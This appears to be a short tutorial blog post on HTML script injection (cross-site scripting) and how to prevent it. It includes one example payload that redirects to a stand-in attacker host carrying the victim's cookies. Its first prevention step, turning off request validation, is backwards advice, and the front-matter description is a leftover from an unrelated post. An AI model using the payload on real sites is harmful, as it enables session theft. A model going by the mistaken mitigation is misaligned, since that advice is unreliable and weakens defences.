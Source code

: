 ```yaml
---
layout: post
title:  "HTML Script Injecting"
author: jhwimalasiri
categories: [ Tech ]
tags: [ code injection ]
image: assets/images/html-script-injection-cover.png
description: "My review of Inception movie. Acting, plot and something else in this short description."
featured: false
hidden: false
---
```


HTML Script Injection also known as Cross-Site Scripting, is a serious security threat which allows attackers to inject malicious html code in to user interfaces of a vulnerable website.

This type of injection may result in not only changing the display of the website but also it can lead to an XSS attack. XSS refers to an injection flaw whereby user input to a web script or something along such lines is placed into the output HTML, without being checked for HTML code or scripting.

Common html tags that can be prone to html script injection,

    <script>  <meta>  <html>  <body> <embed> <frame> <frameset> <img> <style> <link> <object>

## How is HTML Script Injection performed?

First the attacker must find vulnerable parts of the website. Mostly data input fields and website’s links are vulnerable. Then the attacker can inject malicious html code into the source code by innerHTML.

Suppose the website has a comment form,

![Comment Form](../assets/images/comment-form.png)

In the form the user types the name and a comments. After submitting, all the comments are displayed on the page. So if an attacker enters malicious data into the comment it will also be displayed on the page.

For an example a malicious person may enter a comment such as,

    Nice site, I think I’ll take it.<script>window.location=”http://some_attacker/cookie.cgi?steal=" +escape(document.cookie)</script>


If another user views the comment page then the injected code will be executed which will allow the attacker to steal that user’s identity.

## How to prevent script injection attacks?

1. Disable request validation at the application level by turning off ValidateRequest in the pages element of your application's configuration file


        <configuration>
        <appSettings/>
        <connectionStrings/>
        <system.web>
        <pages validateRequest=”false”/>
        </system.web>
        </configuration>

2. Using Server.HTMLEncode() to encode the user s input

        String username= Server.HtmlEncode(TextBox1.Text);
        Response.Write(“Name: “+username);

3. Rejecting certain special characters like, “<”, “>”, “*”, “%”, “!”, “@”, etc.

4. Proper data validation

In this article we talked about what HTML Script Injection is and how to prevent it, during my previous articles we discussed on few types of code injection and this will be the last of them. Hope all that will be helpful to you in making your website secure.

I will be joining with you all with another new interesting topic soon. :)


